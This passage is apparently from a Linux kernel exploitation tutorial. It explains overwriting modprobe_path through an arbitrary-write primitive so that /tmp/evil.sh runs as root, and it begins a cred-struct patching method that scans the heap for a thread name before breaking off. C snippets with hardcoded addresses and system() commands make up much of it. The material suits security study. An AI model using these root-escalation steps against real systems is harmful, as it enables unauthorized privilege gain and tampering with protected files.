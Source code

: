Congratulations! You are now executing your ROP chain in kernel by abusing a heap bug!

## Modprobe

This technique involves overwriting `modprobe_path` and calling modprobe program.

Modprobe is a userspace program that is run when we execute a binary that has invalid magic bytes. For example executing ELF file that starts with bytes XXXX will trigger modprobe. It is implemented in the kernel because it tries to load appropriate kernel modules for specific file types. The kernel stores path to Modprobe in `modprobe_path` variable which will be our target to overwrite. By default it points to `/usr/bin/modprobe` but we can make it point to our arbitrary file `/tmp/evil.sh`.

Steps for this technique:

1. Craft AAW primitive
2. Overwrite `modprobe_path`
```c
#define MODPROBE_PATH 0xffffffff81e38180
...
// Overwrite modprobe_path
char cmd[] = "/tmp/evil.sh";
for (int i = 0; i < sizeof(cmd); i++) {
    AAW32(MODPROBE_PATH + i, *(unsigned int*)&cmd[i]);
}
```
3. Prepare binary to be executed instead of modprobe
```c
// Prepare modprobe binary
system("echo -e '#!/bin/sh\nchmod -R 777 /root' > /tmp/evil.sh");
system("chmod +x /tmp/evil.sh");
```
4. Prepare binary with invalid magic bytes that will trigger modprobe
```c
system("echo -e '\xde\xad\xbe\xef' > /tmp/pwn");
system("chmod +x /tmp/pwn");
```
5. Execute the binary and `evil.sh` will be run as root!
```c
system("/tmp/pwn"); // modprobe_path
```

## Patching struct cred

This last method is my favourite because its not relying on any calls to functions but is directly changing the bytes that are important to become root.

The idea behind this technique is to change the `current->cred` struct of the current process so the process promotes its privileges.

Steps are the following:

1. In Linux using function `prctl()` you can set the threads name
```c
// Set thread name
if (prctl(PR_SET_NAME, "nekomaru") != 0) {
    perror("prctl");
}
```
2. Since this name is tied to a struct that has process info we can scan the heap memory to search for the string "nekomaru"
```c
// Search thread name in memory
long long addr;
for (addr = g_buf - 0x1000000; ; addr += 0x8) { // g_buf is an address on the heap
    if ((addr & 0xfffff) == 0) {
        printf("searching... 0x%llx\n", addr);
    }
    if (AAR32(addr) == 0x6f6b656e && AAR32(addr+4) == 0x7572616d) {
```
